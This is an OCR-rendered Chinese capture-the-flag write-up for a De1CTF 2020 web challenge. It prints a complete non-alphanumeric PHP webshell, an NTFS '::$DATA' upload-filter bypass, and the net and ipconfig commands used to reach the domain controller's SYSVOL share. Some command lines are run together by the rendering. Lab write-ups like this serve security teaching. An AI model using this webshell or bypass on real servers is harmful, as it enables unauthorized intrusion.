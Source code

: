 ```
###### 由于`Check()`函数的过滤，我们不能使用普通的字符，并且不能上传后缀为`.php`的文件，不过由于服务器是`windows`因此我们可以通过NTFS流的方式绕过后缀名的限制`::$DATA`，例如下面的文件名：

```
test.php::$DATA
```

###### 参考无字母数字webshell之提高篇((https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html))来构造我们的无字母的shell。

```
=$_=[]?>=$_=@"$_"?>= $_=$_['!'=='@']?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___=$__?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__++?>=$___.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$___.=$__?>=$____='_'?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>= $____.=$__?>=$__=$_?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$__++?>=$____.=$__?>=$_=$$____?>=$___($_[_])?>
```

###### 上传我们的代码：

![4544a8545e10510942e25592184f31ad.png](img/df99089ba6389a567509fdba53efcd18.png)

###### 成功getshell：

![0e6b6bb713cd37a7a38d02e1e45e8a06.png](img/a74695e3ade93db890ec4b2ca4e873d2.png)

###### 通过system写入一个一句话木马，例如：

![9c203ed45f48d3cdb413570684034b54.png](img/efbe221961a713632fc9fae5dc381506.png)

###### 现在我们使用御剑来连接我们的shell，密码是`a`。

###### 在御剑中打开文件管理，可以看到flag是在`flag1_and_flag2hint`压缩包里，但是我们没有密码，而且爆破是不成功的，因此我们考虑windows渗透：

###### 1.我们查看我们所在的域`net time /domain`，结果如下：

![b3662361557d841d84ba3b1b9fa8f97e.png](img/9633cb276f9d4affabc5894b1f6d7a17.png)

###### 从上面的结果中可以看到我们所在的域是`dc.De1CTF2020.lab`。

###### 2.使用`ipconfig`命令来查看域控：

![2457e6d27875744d896299f3811abc1c.png](img/7ad064e2726672ae64d5d9ead0ff57cf.png)

###### 从上面的结果来看我们的域控是`192.168.0.12`。

###### 3.拿到域控的共享文件夹，找到组策略。

```
net use \\192.168.0.12net view \\192.168.0.12net use S:\\192.168.0.12\wq回车后即可映射局域网内目标机器的S盘。或者直接访问net use \\192.168.0.12\SYSVOL\de1ctf2020.lab\Policies也行随你高兴
```

###### 结果如下：

![458a770cf5227472297f5eaf27422268.png](img/a61de280f5a6413818546ee109ce78e3.png)
```